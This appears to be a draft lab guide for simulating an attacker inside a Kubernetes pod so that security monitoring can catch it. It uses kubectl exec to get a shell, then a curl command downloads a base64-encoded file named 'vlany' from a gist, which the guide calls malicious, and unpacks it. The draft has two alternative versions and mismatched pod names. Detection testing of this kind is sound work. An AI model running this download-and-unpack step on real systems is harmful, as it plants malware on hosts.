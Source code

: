 # The Attack

Let's simulate an attack on our cluster.  In this example we will use `kubectl exec` to download a `tar` file, explode it and run some other nefarious commands.

First let's create a deployment.

```
$ kubectl create ns voting-app
$ kubectl apply -f manifests/ -n voting-app
$ kubectl get pods -n voting-app

```
Verify the Pod has STATUS 'Running' and READY '1/1'

```
$ kubectl get pods -n voting-app
NAME                      READY   STATUS    RESTARTS   AGE
voting-65f88748fd-mbhcc   1/1     Running   0          5m54s
```

Make a note the Pod name.


Now that the deployment is running, let's simulate the attack.  Run the following command to create a shell into the running Container, substituting the pod name as appropriate

```
$ kubectl exec -it nginx-65f88748fd-mbhcc -- /bin/bash
root@nginx-65f88748fd-mbhcc:/#
```

Create a directory in the container

```
$ mkdir policy-test
root@nginx-65f88748fd-mbhcc:/# command terminated with exit code 137
$
```

<<< Or this
Let's use Helm to install a nginx container:

`helm repo add bitnami https://charts.bitnami.com
helm install --name example bitnami/nginx`

You can check that the container is running, and the name of the pod by running  
`kubectl get pod -l app=example-nginx`

Now let's play the attacker, and spawn a shell:  
`kubectl exec -it YOUR_POD_NAME -c example-nginx -- /bin/bash`  
You can get the value of `YOUR_POD_NAME` from the previous command.

You will be presented with a command prompt similar to this:  
`I have no name!@example-nginx-769dfcf684-l4m67:/app$`

You can execute a few commands inside the container, or even download some malicious file.  
`cd /tmp &&
curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz &&
tar zxvf vlany-master.tar.gz`

Remember that the capture was configured to go on for 20 seconds after the event, so
make sure to do execute your commands within that time.
